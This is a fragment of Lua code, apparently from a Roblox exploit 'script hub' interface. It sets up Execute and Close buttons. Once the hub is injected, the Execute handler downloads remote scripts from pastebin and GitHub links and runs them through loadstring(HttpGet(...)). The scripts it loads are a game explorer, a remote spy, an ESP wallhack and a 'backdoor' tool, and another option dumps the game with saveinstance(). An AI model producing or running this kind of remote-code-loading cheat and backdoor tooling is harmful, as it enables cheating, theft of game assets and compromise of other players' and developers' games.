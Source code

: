 execute_2.Name = "execute"
execute_2.Parent = scripthub_2
execute_2.BackgroundColor3 = Color3.fromRGB(104, 104, 104)
execute_2.BackgroundTransparency = 0.800
execute_2.BorderSizePixel = 0
execute_2.Position = UDim2.new(0.34057343, 0, 0.871106505, 0)
execute_2.Size = UDim2.new(0, 92, 0, 30)
execute_2.Font = Enum.Font.Arial
execute_2.Text = "Execute"
execute_2.TextColor3 = Color3.fromRGB(255, 255, 255)
execute_2.TextSize = 14.000
execute_2.ZIndex = 110
execute_2.MouseButton1Click:Connect(function()
    if injected == true then
        if scriptselected == "dex" then
            loadstring(HttpGet("https://pastebin.com/raw/J8AX35Fg"))()
        end
        if scriptselected == "spy" then
            loadstring(HttpGet('https://pastebin.com/raw/JZaJe9Sg'))()
        end
        if scriptselected == "dumper" then
            saveinstance()
        end
        if scriptselected == "esp" then
            loadstring(HttpGet("https://raw.githubusercontent.com/ic3w0lf22/Unnamed-ESP/master/UnnamedESP.lua"))()
        end
        if scriptselected == "backdoor" then
        	loadstring(HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/master/source.lua"))()
        end
        if scriptselected == "none" then
        end
    end
    if injected == false then
        execute_2.Text = "Not Attached!"
        wait(1)
        execute_2.Text = "Execute"
    end
end)

close.Name = "close"
close.Parent = scripthub_2
close.BackgroundColor3 = Color3.fromRGB(104, 104, 104)
close.BackgroundTransparency = 0.800
close.BorderSizePixel = 0
close.Position = UDim2.new(0.685180664, 0, 0.871106505, 0)
close.Size = UDim2.new(0, 84, 0, 30)
close.Font = Enum.Font.Arial
close.Text = "Close"
close.TextColor3 = Color3.fromRGB(255, 255, 255)
close.TextSize = 14.000
close.ZIndex = 110
close.MouseButton1Click:Connect(function()
    scriptselected = "none"
    scripthub_2.Visible = false
end)
